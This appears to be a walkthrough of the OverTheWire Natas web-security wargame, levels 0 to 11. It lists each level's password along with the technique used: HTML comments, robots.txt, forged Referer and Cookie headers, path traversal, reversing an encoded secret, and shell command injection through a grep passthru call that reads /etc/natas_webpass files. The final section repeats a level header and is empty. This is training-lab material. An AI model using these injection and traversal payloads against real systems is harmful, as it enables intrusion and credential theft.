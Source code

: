 <details open>
<summary>Level 0 - > Level 1</summary>

```
<div id="content"><font style="vertical-align: inherit;"><font style="vertical-align: inherit;">
您可以在此页面找到下一级的密码。

</font></font><!--The password for natas1 is g9D9cREhslqBKtcA2uocGHPfMZVzeFK6 -->
</div>
```

</details>

<details open>
<summary>Level 1 - > Level 2</summary>

```
<div id="content"><font style="vertical-align: inherit;"><font style="vertical-align: inherit;">
您可以在此页面找到下一级的密码，但右键已被阻止！

</font></font><!--The password for natas2 is h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7 -->
</div>
```

</details>

<details open>
<summary>Level 2 - > Level 3</summary>

```
<font style="vertical-align: inherit;"><font style="vertical-align: inherit;">
该页面上没有任何内容
</font></font>

http://natas2.natas.labs.overthewire.org/files/

# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

</details>

<details open>
<summary>Level 3 - > Level 4</summary>

```
http://natas3.natas.labs.overthewire.org/robots.txt

http://natas3.natas.labs.overthewire.org/s3cr3t/

tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```

</details>

<details open>
<summary>Level 4 - > Level 5</summary>

```
Referer: http://natas5.natas.labs.overthewire.org/

<script>
var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script>

Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
```

</details>

<details open>
<summary>Level 5 - > Level 6</summary>

```
Cookie: __utma=176859643.1977144041.1687720082.1687720082.1687720082.1; __utmc=176859643; __utmz=176859643.1687720082.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); loggedin=1

Access granted. The password for natas6 is fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR

fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```

</details>

<details open>
<summary>Level 6 - > Level 7</summary>

```
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>

jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```

</details>

<details open>
<summary>Level 7 - > Level 8</summary>

```
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB
```

</details>

<details open>
<summary>Level 8 - > Level 9</summary>

```
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}

import base64

encoded_secret = "3d3d516343746d4d6d6c315669563362"

# 将十六进制转换为字节串
hex_bytes = bytes.fromhex(encoded_secret)

# 反转字节串
reversed_bytes = hex_bytes[::-1]

# 解码 Base64
decoded_bytes = base64.b64decode(reversed_bytes)

# 将字节串转换为字符串
password = decoded_bytes.decode('utf-8')

print(password)

Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
```

</details>

<details open>
<summary>Level 9 - > Level 10</summary>

```
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}

a | cat /etc/natas_webpass/natas10 #

D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```

</details>

<details open>
<summary>Level 10 - > Level 11</summary>

```
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}

. /etc/natas_webpass/natas11

1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```

</details>

<details open>
<summary>Level 10 - > Level 11</summary>

```

```

</details>

